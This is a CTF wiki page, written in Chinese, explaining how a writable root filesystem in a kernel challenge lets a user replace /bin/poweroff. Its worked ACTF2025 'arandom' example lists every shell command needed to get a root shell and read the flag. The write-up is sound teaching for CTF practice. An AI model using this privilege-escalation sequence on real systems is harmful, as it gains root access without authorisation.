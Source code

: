 # 直接改写根文件系统

部分题目由于出题人的疏忽，会导致题目所使用的文件系统的根目录对非特权用户是可写的，这通常是因为出题人对文件系统进行了规范度不够打包。

因此在 CTF 比赛当中，一个小技巧便是首先查看文件系统的权限是否配好，对于存在此类情况的题目，我们可以直接改写文件系统根目录，从而使得部分恶意命令被通过 root 权限执行。比较常见的是替换掉 `/bin/poweroff` ，因为在通用 kernel pwn 出题规范当中的 init 脚本的最后一句通常都使用该命令进行关机。

这种方法虽然不能让选手在第一时间理解出题人的意图，但可以让选手在第一时间得分。

## 例题：ACTF2025 - arandom

题目附件可在 [https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/kernel-mode/ACTF2025-arandom](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/kernel-mode/ACTF2025-arandom) 下载。

### 题目分析

我们首先启动环境，查看根目录权限：

```shell

Boot took 5.66 seconds

bash: cannot set terminal process group (-1): Not a tty
bash: no job control in this shell
bash-5.2$ ls -la /
total 56
drwxrwxr-x   12 ctf      ctf            300 Apr 21 12:48 .
drwxrwxr-x   12 ctf      ctf            300 Apr 21 12:48 ..
-rw-r--r--    1 root     root         48016 Apr 21 12:13 arandom.ko
drwxr-xr-x    2 root     root          5640 Apr 15 07:49 bin
drwxr-xr-x    7 root     root          2280 May  1 13:31 dev
drwxr-xr-x    2 root     root           140 Apr 15 07:49 etc
-rw-------    1 root     root            38 Apr 15 07:53 flag
-rwxr-xr-x    1 root     root           354 Apr 21 12:22 init
drwxr-xr-x    2 root     root            40 Apr 15 07:49 lib
drwxr-xr-x    2 root     root            40 Apr 15 07:49 lib64
dr-xr-xr-x  107 root     root             0 May  1 13:31 proc
drwxr-xr-x    2 root     root            60 Apr 15 07:49 root
drwxr-xr-x    2 root     root            40 Apr 15 07:49 sbin
dr-xr-xr-x   12 root     root             0 May  1 13:31 sys
drwxrwxrwt    2 root     root            40 May  1 13:31 tmp
```

可以看到存在根目录权限未配置好的漏洞。

接下来查看 `/init` 启动脚本：

```shell
bash-5.2$ cat /init
#!/bin/sh

mount -t proc none /proc
mount -t sysfs none /sys
mount -t tmpfs tmpfs /tmp
mount -t devtmpfs none /dev

echo -e "\nBoot took $(cut -d' ' -f1 /proc/uptime) seconds\n"

chmod 600 /flag

insmod arandom.ko
chmod 666 /dev/arandom

echo 1 > /proc/sys/kernel/dmesg_restrict
echo 1 > /proc/sys/kernel/kptr_restrict


su ctf -c /bin/bash

poweroff -f
bash-5.2$ which poweroff
/bin/poweroff
```

可以看到最后会以 root 权限执行 `poweroff` 命令，其执行路径为 `/bin/poweroff`。

### 漏洞利用

由于根目录对于我们存在可写权限，因此我们可以直接将 `/bin` 目录迁移为别的目录，再创建一个新的 `/bin` 目录，之后创建一个新的 `/bin/poweroff` 写入恶意指令即可。

`busybox` 允许我们通过命令行参数直接执行各种命令，因此在 `/bin` 目录迁移后我们直接调用 `busybox` 进行后续操作即可。

最后的利用命令如下：

```shell
bash-5.2$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
bash-5.2$ ls -la /flag
-rw-------    1 root     root            38 Apr 15 07:53 /flag
bash-5.2$ cat /flag
cat: can't open '/flag': Permission denied
bash-5.2$ mkdir /abin
bash-5.2$ cp -r /bin/* /abin/
bash-5.2$ rm /abin/poweroff
bash-5.2$ echo '#!/bin/sh' > /abin/poweroff
bash-5.2$ echo 'su root -c sh' >> /abin/poweroff
bash-5.2$ chmod +x /abin/poweroff
bash-5.2$ mv /bin /bbin
bash-5.2$ /bbin/busybox mv /abin /bin
bash-5.2$ exit
exit
sh: can't access tty; job control turned off
/ # id
uid=0(root) gid=0(root) groups=0(root)
/ # cat /flag
ACTF{testtesttesttesttesttesttesttest}
```
